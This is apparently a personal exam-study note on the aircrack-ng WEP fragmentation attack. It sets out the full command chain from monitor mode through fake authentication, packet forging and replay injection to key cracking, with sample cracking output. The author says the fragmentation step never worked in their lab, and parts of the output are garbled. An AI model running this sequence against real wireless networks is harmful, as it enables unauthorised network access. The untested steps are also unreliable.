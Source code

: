 # Fragmentation (Clientless) (WEP)

This attack, when successful, can obtain 1500 bytes of PRGA (pseudo random generation algorithm). This attack does not recover the WEP key itself, but merely obtains the PRGA. The PRGA can then be used to generate packets with packetforge-ng which are in turn used for various injection attacks. It requires at least one data packet to be received from the access point in order to initiate the attack.

Basically, the program obtains a small amount of keying material from the packet then attempts to send ARP and/or LLC packets with known content to the access point (AP). If the packet is successfully echoed back by the AP then a larger amount of keying information can be obtained from the returned packet. This cycle is repeated several times until 1500 bytes of PRGA are obtained or sometimes less then 1500 bytes.

## Commands

***NOTE: Fragmentation attack does not appear to be supported in my lab. Even injection testing fails between two adapters. These steps assume that it works just in case the exam asks for it.***

* Run [setup](../../setup.md) first
* Two terminals are needed
* NO clients associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack with prolonged reassociation timing (every 60 secs)
sudo aireplay-ng --fakeauth 60 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# [Terminal Three]
sudo aireplay-ng --fragment -b $BSSID -h $INTERFACEMAC $INTERFACE

# Wait for 'Use this packet y' then enter y
# If successful - look for 'Got RELAYED packet!!' message
# Look for a fragment-*.xor file
# I could not get this far :(

# Forge a fake packet, -l source, -k destination
sudo packetforge-ng -0 -a $BSSID -h $INTERFACEMAC -l 255.255.255.255 -k 255.255.255.255 -y fragment-0613-175215.xor -w inject.cap

# Check veracity of file
tcpdump -n -vvv -e -s0 -r inject.cap

reading from file inject.cap, link-type IEEE802_11 (802.11), snapshot length 65535
17:55:05.191216 Protected 258us BSSID:AA:BB:CC:DD:EE:FF SA:FF:EE:DD:CC:BB:AA DA:ff:ff:ff:ff:ff:ff Data IV:5cbca Pad 0 KeyID 0

# Run the interactive attack against the client
sudo aireplay-ng --interactive -r inject.cap $INTERFACE

# Watch for the data to explode in size with lots of IVs :)
# If successful, data should get large
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* View the output for the success message

```
Reading packets, please wait...
Opening wifu-01.cap
Read 441431 packets.

   #  BSSID              ESSID                     Encryption

   1  AA:BB:CC:DD:EE:FF  wifu                      WEGot 74852 out of 70000 IVsStarting PTW attack with 74852 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Fragmentation](https://www.aircrack-ng.org/doku.php?id=fragmentation)
